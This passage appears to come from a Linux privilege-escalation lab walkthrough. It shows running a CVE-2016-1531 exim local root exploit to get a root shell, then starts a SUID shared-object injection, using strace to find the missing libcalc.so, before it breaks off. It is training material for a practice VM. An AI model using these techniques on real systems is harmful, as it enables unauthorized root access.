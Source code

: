     Note that `/usr/sbin/exim-4.84-3` appears in the results. Try to find a known exploit for this version of exim. Exploit-DB, Google, and GitHub are good places to search!

    A local privilege escalation exploit matching this version of exim exactly should be available. A copy can be found on the Debian VM at `/home/user/tools/suid/exim/cve-2016-1531.sh`.

- Run the exploit script to gain a root shell:

    ```bash
    user@debian:~$ /home/user/tools/suid/exim/cve-2016-1531.sh
    [ CVE-2016-1531 local root exploit
    sh-4.1# 
    ```

## SUID / SGID Executables - Shared Object Injection
The `/usr/local/bin/suid-so` SUID executable is vulnerable to shared object injection.

- First, execute the file and note that currently it displays a progress bar before exiting:

    ```bash
    user@debian:~$ /usr/local/bin/suid-so
    Calculating something, please wait...
    [=====================================================================>] 99 %
    Done.
    ```

- Run `strace` on the file and search the output for open/access calls and for "no such file" errors:

    ```bash
    user@debian:~$ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
    access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
    open("/etc/ld.so.cache", O_RDONLY)      = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libdl.so.2", O_RDONLY)       = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libm.so.6", O_RDONLY)        = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libc.so.6", O_RDONLY)        = 3
    open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
    ```

    Note that the executable tries to load the `/home/user/.config/libcalc.so` shared object within our home directory, but it cannot be found.

- Create the .config directory for the libcalc.so file:

    ```bash
    user@debian:~$ mkdir /home/user/.config
    ```
